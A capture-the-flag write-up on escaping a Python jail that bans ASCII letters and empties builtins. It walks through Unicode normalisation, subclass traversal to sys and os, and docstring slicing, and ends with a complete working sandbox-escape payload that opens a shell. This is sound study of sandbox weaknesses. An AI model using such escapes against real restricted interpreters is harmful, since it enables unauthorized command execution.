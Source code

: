 
We're given the source code to a Python interactive console with various restrictions placed on us.

```python

class FrozenDict(dict):
	def __init__(self, v):
		super().__init__(v)
	def __setitem__(self, k, v):
		# no changey for you
		print("bonked")
		exit(1)
```

Firstly, we're given a FrozenDict class, which will exit whenever we attempt to set an item, e.g. `my_dict["abc"] = 1`.


```python
def restrict(buffer_list):
	# no ascii letters for you, muwhaahahha
	for line in buffer_list:
		for char in string.ascii_letters:
			if char in line:
				print("bonked")
				exit(1)
			
	return True
```

Next, we're given a function which takes in a list of strings from the console and then checks each character if it's inside string.ascii_letters (i.e. `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`).

Then, we have some setup for the interactive console. Importantly, our shell will run `restrict()` on our input and assuming that does not exist, then runs an `exec` command on our input with a frozen empty dict of builtins.

`__builtins__` usually stores the built in functions of Python, for example:
```
>>> dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', ... , 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

Therefore, when our `exec` sets `__builtins__` to an empty dictionary, we have no built-in methods available to us, such as `import`.

We now have the challenge of attempting to get a shell, without using any ascii characters in our input (otherwise, the challenge will kick us out.) While `os.system("/bin/bash")` feels impossible with these restrictions, we can use various tricks to eventually do it.

Firstly, we'll look at the ASCII restriction. A fun(?) feature of the Python interactive console is that given Unicode characters, it will normalise them for us. Therefore, the following below will be evaluated as a regular `print` function.

```
>>> 𝔭𝔯𝔦𝔫𝔱("hello")
hello
```

Therefore, we can simply replace any reference to these characters to the Gothic unicode equivalent.

```python
import string

fake_alphabet = "𝔞 𝔟 𝔠 𝔡 𝔢 𝔣 𝔤 𝔥 𝔦 𝔧 𝔨 𝔩 𝔪 𝔫 𝔬 𝔭 𝔮 𝔯 𝔰 𝔱 𝔲 𝔳 𝔴 𝔵 𝔶 𝔷".split(" ")
real_alphabet = string.ascii_lowercase
trans = str.maketrans("".join(real_alphabet), "".join(fake_alphabet))
```

We still don't have access to builtins such as `print` or `import`. However, other modules do already have existing access to these builtins. Therefore, if we can somehow access another module within our restrictions, we may be able to gain access to new modules such as `os`.

For clarity, I will not use the Unicode bypass in the following examples. Firstly, we can initiate a tuple and then get access to the `Tuple` class:

```
>>> ()
()
>>> ().__class__
<class 'tuple'>
```

At this point, we can then reference the `__base__` of the tuple class, which references the parent class of the tuple class. This gives us access to the generic `object` class.

```
>>> ().__class__.__base__
<class 'object'>
```

From there, we can then use the `__subclasses__()` function, which returns all the subclasses of the object class, which is quite a few different classes.

```
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, ..., <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class 'apport.packaging.PackageInfo'>, <class 'gettext.NullTranslations'>]
```

This is exciting, as we now have access to a various number of classes defined in external modules. The example above shows classes defined in the `pickle` library.

A very common one that is used in this list is `<class 'warnings.catch_warnings'>`, as it has references to the `os` module, which is our final goal for getting a shell. To select one, we can simply index this list at whatever index this module is at. In this case for me, it's at 140.

```
>>> ().__class__.__base__.__subclasses__()[140]
<class 'warnings.catch_warnings'>
```

From here, we can then begin enumerating this class to find `os`. We can look at the class' `__init__` function and use the `__globals__` property to find global variables defined within this function. 

print("""[*().__𝔠𝔩𝔞𝔰𝔰__.__𝔟𝔞𝔰𝔢__.__𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰__()[140].__𝔦𝔫𝔦𝔱__.__𝔤𝔩𝔬𝔟𝔞𝔩𝔰__.𝔳𝔞𝔩𝔲𝔢𝔰()][8].𝔪𝔬𝔡𝔲𝔩𝔢𝔰[().__doc__[34]+().__doc__[19]].system([].__doc__[17::79])""".translate(trans))

```
{'__name__': 'warnings', '__doc__': 'Python part of the warnings subsystem.', '__package__': '', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f099ecdfcd0>, '__spec__': ModuleSpec(name='warnings', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7f099ecdfcd0>, origin='/usr/lib/python3.9/warnings.py'), '__file__': '/usr/lib/python3.9/warnings.py', '__cached__': '/usr/lib/python3.9/__pycache__/warnings.cpython-39.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>, origin='built-in'), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'sys': <module 'sys' (built-in)>, ... }
```

I've removed some results for brevity, but note here that we also have access to the builtins that the `exec` call removed. However, the most important one here is the `sys` module. To reference this, I decided to take the values of this dictionary, convert it to a list then reference the `sys` module with the index.

```
>>> [*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8]
<module 'sys' (built-in)>
```

(Note that the index may differ, depending on the remote version)

Once we have the `sys` module, we can look at the `modules` property of the `sys` module.

```
>>> [*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8].modules
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module 'importlib._bootstrap' (frozen)>, '_imp': <module '_imp' (built-in)>, '_thread': <module '_thread' (built-in)>, '_warnings': <module '_warnings' (built-in)>, ... 'os': <module 'os' from '/usr/lib/python3.9/os.py'>}
```

Again, there are many modules referenced but most importantly, there's the `os` module we've been looking for!

However, we can't just use the string `"os"` to refer to it, due to the ascii character restriction. This is fine however, as we can simply craft the os string by slicing pre-existing strings within the `__doc__` property of existing objects. For example, the `__doc__` property of a list gives us this string:

```python
>>> [].__doc__
'Built-in mutable sequence.\n\nIf no argument is given, the constructor creates a new empty list.\nThe argument must be an iterable if specified.'
```

From this, we can simply select the indexes of this string to craft `"os"`.

```
>>> [*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8].modules[().__doc__[34]+().__doc__[19]]
<module 'os' from '/usr/lib/python3.9/os.py'>
```

At this point, we can reference the `system` function using our Unicode bypass (not included in the code block below).

```
>>> [*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8].modules[().__doc__[34]+().__doc__[19]].system
<built-in function system>
```

Finally, we need to craft our `/bin/bash` string. However, we can get away with just doing `sh`. Therefore, we'll craft it in the same way as we did the `"os"`.

```
>>> [].__doc__[17]+[].__doc__[54]
'sh'
```

Finally, we can put this all together for our payload:

```
[*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8].modules[().__doc__[34]+().__doc__[19]].system([].__doc__[17]+[].__doc__[54])
```

We can then apply our gothic unicode translation:

```python
import string

fake_alphabet = "𝔞 𝔟 𝔠 𝔡 𝔢 𝔣 𝔤 𝔥 𝔦 𝔧 𝔨 𝔩 𝔪 𝔫 𝔬 𝔭 𝔮 𝔯 𝔰 𝔱 𝔲 𝔳 𝔴 𝔵 𝔶 𝔷".split(" ")
real_alphabet = string.ascii_lowercase
trans = str.maketrans("".join(real_alphabet), "".join(fake_alphabet))

payload = "[*().__class__.__base__.__subclasses__()[140].__init__.__globals__.values()][8].modules[().__doc__[34]+().__doc__[19]].system([].__doc__[17]+[].__doc__[54])".translate(trans)

print(payload)
```

Which gives us the payload: 

```
[*().__𝔠𝔩𝔞𝔰𝔰__.__𝔟𝔞𝔰𝔢__.__𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰__()[140].__𝔦𝔫𝔦𝔱__.__𝔤𝔩𝔬𝔟𝔞𝔩𝔰__.𝔳𝔞𝔩𝔲𝔢𝔰()][8].𝔪𝔬𝔡𝔲𝔩𝔢𝔰[().__𝔡𝔬𝔠__[34]+().__𝔡𝔬𝔠__[19]].𝔰𝔶𝔰𝔱𝔢𝔪([].__𝔡𝔬𝔠__[17]+[].__𝔡𝔬𝔠__[54])
```

Running the payload gives us a shell, without using any ASCII characters.

```
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>> [*().__𝔠𝔩𝔞𝔰𝔰__.__𝔟𝔞𝔰𝔢__.__𝔰𝔲𝔟𝔠𝔩𝔞𝔰𝔰𝔢𝔰__()[140].__𝔦𝔫𝔦𝔱__.__𝔤𝔩𝔬𝔟𝔞𝔩𝔰__.𝔳𝔞𝔩𝔲𝔢𝔰()][8].𝔪𝔬𝔡𝔲𝔩𝔢𝔰[().__𝔡𝔬𝔠__[34]+().__𝔡𝔬𝔠__[19]].𝔰𝔶𝔰𝔱𝔢𝔪([].__𝔡𝔬𝔠__[17]+[].__𝔡𝔬𝔠__[54])
$ id
uid=1000(josh) gid=1000(josh) groups=1000(josh)
```